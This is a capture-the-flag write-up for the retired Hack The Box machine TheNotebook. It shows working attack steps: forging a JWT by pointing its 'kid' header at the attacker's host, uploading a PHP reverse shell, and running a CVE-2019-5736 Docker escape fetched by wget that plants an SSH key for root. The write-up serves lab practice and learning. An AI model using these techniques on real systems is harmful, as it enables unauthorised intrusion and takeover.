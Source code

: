 # TheNotebook

This is the write-up for the box TheNotebook that got retired at the 31st July 2021.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.230   thenotebook.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/thenotebook.nmap 10.10.10.230
```

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
|_http-server-header: nginx/1.14.0 (Ubuntu)
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web service is a custom-developed website with the option to _register_ and _login_.
When trying to login with _admin_, it shows an error message if a user exists or not, which can be used to enumerate usernames:
```
# Username does exist
Login Failed! Reason: Incorrect Password

# Username does not exist
Login Failed! Reason: User doesn't exist.
```

After registering a user, it shows a message that they can be accessed on _/notes_.
On there it is possible to add a title and contents for a note.

It forwards to a generated URL _/dee51418-9e3e-47fe-925e-2a1de64e7ebe/notes_ while the directory _/notes_ cannot be found.
The cookies also show this string in the value for _uuid_ and another cookie _auth_ with a **JSON Web Token (JWT)**:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InR(...)
```

The token consists of three different parts separated by a dot symbol and can be decoded with **Base64**:
```
echo eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9 | base64 -d

{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}
```
```
echo eyJ1c2VybmFtZSI6InRlc3QxIiwiZW1haWwiOiJ0ZXN0MUB0ZXN0LmxvY2FsIiwiYWRtaW5fY2FwIjowfQ | base64 -d

{"username":"test1","email":"test1@test.local","admin_cap":0}
```

The third part is the signature, which does not display anything readable.

The value _admin_cap_ seems to define if a user has administrative capabilities, so we need to set it to 1 to gain privileged access.
To change that, it has to be signed with a valid public and private key.

It seems to get that information from the service on port 7070 on localhost, so lets proof that by changing the IP to our client:
```
echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.5:7070/privKey.key"}' | base64 -w 0

eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC41OjcwNzAvcHJpdktleS5rZXkifQo
```

After replacing the string and sending the token to the server, it sends a request to our **Netcat** listener on port 7070:
```
Ncat: Connection from 10.10.10.230.
GET /privKey.key HTTP/1.1
Host: 10.10.14.5:7070
User-Agent: python-requests/2.25.1
(...)
```

Creating our own private key to sign the JWT:
```
ssh-keygen -t rsa -b 5096 -m PEM -f jwtRS256.key
```
```
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
```

The signatures and the changes can be done with [jwt.io](JWT with [jwt.io](https://jwt.io/):

![Generating token on jwt.io](thenotebook_jwt-1.png)

Creating a symbolic link from the new key to the name _privKey.key_:
```
ln -s jwtRS256.key privKey.key
```

Starting a web server on port 7070:
```
python3 -m http.server 7070
```

After replacing the JWT token in the web application with our generated one, it will connect to our webserver on port 7070 and validate the token.
This token has _admin_cap_ set to 1 and there is a new menu called _Admin Panel_ on _/admin_.

On the admin panel it is possible to view all notes and to upload files:

![Features of admin panel](thenotebook_web-1.png)

Another potential username is _noah_ and there is a note from the admin of a security issue:
```
Have to fix this issue where PHP files are being executed :/. This can be a potential security issue for the server.
```

Lets use the upload feature to upload _php-reverse-shell.php_ from the **Laudanum scripts** to gain a reverse shell connection.
It gets uploaded with a random string in the name and can be found in the root directory:
```
http://10.10.10.230/881426a1bbba7c5a05723d01267a120a.php
```

After browsing there, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

After enumerating the file system and checking timestamps, this box was created around mid of February, so files can be searched that were written in that timespan:
```
find / -newermt "2021-02-12" ! -newermt "2021-02-19" 2>/dev/null | grep -v '/etc\|/var/lib\|/sys\|/proc\|/boot\|/lib\|/usr'
```

The file _/var/backups/home.tar.gz_ looks interesting, so lets move it to _/tmp_ and decompress it:
```
cp home.tar.gz /tmp/
cd /tmp
tar -xzvf home.tar.gz
```

It contains the files of the home folder of _noah_ and in _/.ssh_ is a private SSH key that can be copied and used to login as this user:
```
ssh -i noah.key noah@10.10.10.230
```

### Privilege Escalation to root

The user _noah_ can run a **Docker** command with root privileges:
```
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

In the Docker container is the file _privKey.key_, so this is the service on port 7070, but there is nothing interesting in there.
The command `docker -v` shows that it runs [Docker version 18.06.0](https://docs.docker.com/engine/release-notes/18.06/) and this version was released in 2018 and has vulnerabilities.

It is affected by the critical vulnerability **CVE-2019-5736** which has [PoC code on GitHub](https://github.com/Frichetten/CVE-2019-5736-PoC).

Creating an SSH key:
```
ssh-keygen -f notebook
```

Modifying the payload so it will upload our SSH key into the _/root/.ssh_ folder of the box:
```
(...)
var payload = "#!/bin/bash \n mkdir -p /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB(...)' > /root/.ssh/authorized_keys" + shellCmd
(...)
```

Compiling the code into a binary:
```
go build cve-2019-5673.go
```

Starting a shell in the container:
```
sudo /usr/bin/docker exec -it webapp-dev01 sh
```

Downloading the binary from our local client into the container:
```
# wget 10.10.14.5:8000/cve-2019-5673
```

Changing permissions to make it executable:
```
# chmod +x cve-2019-5673
```

Executing the binary:
```
# ./cve-2019-5673
```
```
[+] Overwritten /bin/sh successfully
(...)
[+] The command executed is#!/bin/bash
mkdir -p /root/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ(...)' > /root/.ssh/authorized_keys
```

The exploit will write our SSH key into the _authorized_keys_ and it is possible to log in as root!
```
ssh -i notebook root@10.10.10.230
```
